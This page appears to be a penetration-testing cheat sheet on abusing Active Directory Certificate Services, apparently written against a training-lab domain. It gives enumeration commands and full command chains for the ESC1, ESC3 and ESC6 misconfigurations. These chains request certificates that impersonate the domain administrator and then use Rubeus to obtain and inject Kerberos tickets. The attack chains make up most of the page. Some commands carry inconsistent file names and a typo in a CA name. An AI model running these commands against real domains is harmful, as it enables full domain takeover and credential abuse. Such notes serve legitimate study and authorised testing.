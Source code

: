 # AD CS

[Active Directory Certificate Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview) (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.

[#active-directory-certificate-services-a-d-cs](../../misc/theory/concepts.md#active-directory-certificate-services-a-d-cs "mention")

## Tools

Certify and Certipy tools to enumerate and abuse misconfigurations in AD CS:

{% embed url="https://github.com/GhostPack/Certify" %}
Certify
{% endembed %}

{% embed url="https://github.com/ly4k/Certipy" %}
Certipy
{% endembed %}

## Enumerate

```powershell
# all registered CAs
Certify.exe cas
# enumerate templates
Certify.exe find
# enumerate vulnerable templates
Certify.exe find /vulnerable
```

## Abuse

{% hint style="info" %}
### **Pre-reqs:**


{% endhint %}

### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find /enrolleeSuppliesSubject
# Check the Enrollment Permissions for the certificate templates and see if we (or our compromised user has access to be an enrollee)

# Request cert for any user - /altname:<username-to-be-impersonated> or <username-for-which-certificate-to-be-issued-for>
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
-----or-----
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator

# Copy the obtained certificate.pem and then continue with below steps
# Convert it to pfx and set password
openssl pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:123456 /ptt
```
{% endcode %}

### ESC3 - NA from November 2023 Patches

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find /vulnerable

# Request a certificate based on vulnerable template
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template

# Convert it to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Request a certificate on behalf of DA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:123456

# Convert it again to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Get TGT using the pfx certificate
Rubeus.exe asktgt /user:administrator /certificate:esc3.pfx /password:123456 /ptt

```
{% endcode %}

### ESC6 - NA from November 2023 Patches

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.\
This flag allows the enrollee to specify an arbitrary Subject Alternative Name (SAN) on all certificates despite a certificate template's configuration.

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find 

# Request cert
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:<vul_template> /altname:administrator

# Convert it to pfx and set password
openssl pkcs12 -in esc6.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc6.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:123456 /ptt
```
{% endcode %}
